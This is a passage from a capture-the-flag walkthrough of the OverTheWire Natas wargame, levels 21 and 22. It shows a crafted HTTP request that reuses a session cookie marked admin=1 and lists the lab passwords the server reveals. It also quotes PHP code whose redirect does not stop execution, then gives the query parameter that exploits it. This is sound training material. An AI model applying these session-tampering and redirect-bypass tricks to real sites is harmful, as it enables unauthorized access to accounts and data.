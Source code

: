 This means that our PHPSESSID now has admin=1

If we send a request to the main page with below PHPSESSID we will pass the admin check.  
PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7

```text
GET /index.php HTTP/1.1
Host: natas21.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7
Upgrade-Insecure-Requests: 1

You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ</pre>
```

chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

## natas22

```php
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

If revelio is in $\_GET and admin is not set add a location header. This will result in a 302 redirect. Then, if revelio is in the $\_GET request show the password.

We can set revelio with teh following params.  
natas22.natas.labs.overthewire.org/?revelio=a
